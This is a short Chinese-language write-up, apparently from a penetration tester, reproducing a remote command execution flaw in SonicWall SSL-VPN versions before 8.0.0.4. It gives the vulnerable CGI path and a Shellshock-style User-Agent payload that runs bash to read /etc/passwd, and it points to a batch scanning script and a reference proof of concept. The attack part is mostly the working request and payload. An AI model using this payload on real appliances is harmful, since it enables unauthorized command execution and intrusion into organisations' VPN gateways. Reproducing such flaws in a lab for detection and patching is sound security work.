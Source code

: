 # 0x00 软件介绍
SonicWall：一款VPN解决方案，包含WEB界面、VPN功能等

# 0x01 复现环境
复现环境：公司实验室  
复现版本：SonicWall  
环境搭建：  
略

# 0x02 利用条件
无

# 0x03 影响版本
SonicWall SSL-VPN < 8.0.0.4

# 0x04 漏洞复现
攻击环境：kali x64  
访问目标，burp抓包，将访问地址修改为
```
/cgi-bin/jarrewrite.sh
```
将User-Agent修改为
```
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'
```
成功执行命令，如下图
![image](./0.png)

# 0x05 批量脚本
批量脚本见batch-detect.py（脚本很简陋，正在写脚本时，领导又给了一个渗透的任务，实在没时间了。。），执行结果如下：  
![image](./1.png)

# 0x06 参考链接
https://github.com/darrenmartyn/VisualDoor/blob/main/visualdoor.py
